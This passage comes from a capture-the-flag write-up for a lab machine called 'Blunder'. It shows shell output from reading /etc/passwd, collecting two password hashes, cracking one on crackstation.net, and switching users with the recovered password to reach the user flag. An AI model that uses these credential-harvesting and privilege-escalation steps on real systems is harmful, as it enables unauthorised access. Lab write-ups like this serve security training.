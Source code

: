 ```bash
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Apr 27 14:31 .
drwxr-xr-x 21 root  root  4096 Apr 27 14:09 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26 09:29 hugo
drwxr-xr-x 16 shaun shaun 4096 Apr 28 12:13 shaun
www-data@blunder:/$ cat /etc/passwd  
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
geoclue:x:121:126::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:122:127:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:123:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:124:129:Gnome Display Manager:/var/lib/gdm3:/bin/false
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
...
```
<br />If we are able to crack it, we can switch to user Hugo 

## Cracking Found Hashes with crackstation.net
We collected our hashes and stored in **```hashes.txt```**:
<br />
```bash
$ cat hashes.txt 
admin:bfcc887f62e36ea019e3295aafb8a3885966e265
hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
```
<br />Let's crack it. Let's go to [crackstation.net](https://crackstation.net/) and let them crack our hashes there.<br />
![Crackstation](images/blunder/7.png)
<br />It was able to crack Hugo's password but not the admin one. Let's try to switch user to Hugo.

## Escalating from www-data to hugo
Let's switch to Hugo
<br />
```bash
www-data@blunder:/$ su hugo
su hugo
Password: Password120
whoami
hugo
python3 -c "import pty; pty.spawn('/bin/bash')"
hugo@blunder:/$ 
```
<br />It worked! At this point, we can now get the user flag.
<br />
```bash
hugo@blunder:/$ cd ~
cd ~
hugo@blunder:~$ ls -la
ls -la
total 80
drwxr-xr-x 16 hugo hugo 4096 May 26 09:29 .
drwxr-xr-x  4 root root 4096 Apr 27 14:31 ..
lrwxrwxrwx  1 root root    9 Apr 28 12:13 .bash_history -> /dev/null
-rw-r--r--  1 hugo hugo  220 Nov 28  2019 .bash_logout
```